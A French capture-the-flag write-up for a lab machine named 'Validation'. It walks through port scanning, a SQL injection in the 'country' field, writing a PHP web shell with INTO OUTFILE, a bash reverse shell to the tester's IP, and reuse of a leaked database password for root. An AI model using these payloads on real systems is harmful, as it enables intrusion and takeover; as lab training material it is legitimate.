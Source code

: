 # Validation - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-12 10:22 EST
Nmap scan report for 10.10.11.116
Host is up (0.067s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On lance un gobuster dir sur le site au port 80 pendant qu’on explore.

Pas d’injection SQL sur le champ username à première vue. Le serveur utilise du php et tourne avec du apache. 

Résultats du gobuster:

Il y a un fichier config.php mais il est protégé, on fait un autre gobuster en filtrant pout les fichiers php

```bash
gobuster dir -u http://10.10.11.116 -w /usr/share/wordlists/dirb/big.txt -x php
```

Rien de trouvé, on va tenter sqlmap sur le champ username. On intercepte d’abord la requête avec Burp. Voici les champs:

```bash
username=test&country=Brazil
```

Contrairement à ce que l’on pourrait penser c’est le paramètre country qui est vulnérable:

```bash
sqlmap identified the following injection point(s) with a total of 129 HTTP(s) requests:
---
Parameter: country (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test&country=Brazil' AND (SELECT 3054 FROM (SELECT(SLEEP(5)))DwDZ) AND 'wBZY'='wBZY
---
```

On arrive rien à tirer avec sqlmap donc on essaye en manuel et en rajoutant un simple ‘ au pays on tombe sur:

```bash
:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33</b>
```

On va donc maintenant essayer de faire des injections avec le test de l’union classique pour savoir combien de colonnes sont attendues:

```bash
username=test&country=Afganistan' union select 1 -- -
```

1 apparaît dans la liste des users donc c’est une réussite, la query attends 1 colonnes. On se rend compte qu’on peut demander n’importe quoi tant que c’est du SQL:

```bash
username=test&country=Afganistan' union select "test" -- -
```

```bash
username=test&country=Afganistan' union select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php" -- -
```

Résultat:

```bash
Warning: system(): Cannot execute a blank command in /var/www/html/shell.php on line 1
```

On a donc plus qu’à faire ça pour tester:

```bash
http://10.10.11.116/shell.php?cmd=ls
```

On peut donc faire un reverse shell facilement

```bash
http://10.10.11.116/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.6/9090+0>%261'
```

On trouve alors dans le fichier config.php:

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

On remarque également qu’on a accès au flag user.

On ne trouve rien sur la DB en se connectant avec mysql et vu le nom du mdp on essaye de se connecter en root:

```php
mysql -u uhc -p
sudo root
```

Il se trouve que c’est un mdp global (comme le nom l’indique) donc on obtient le flag root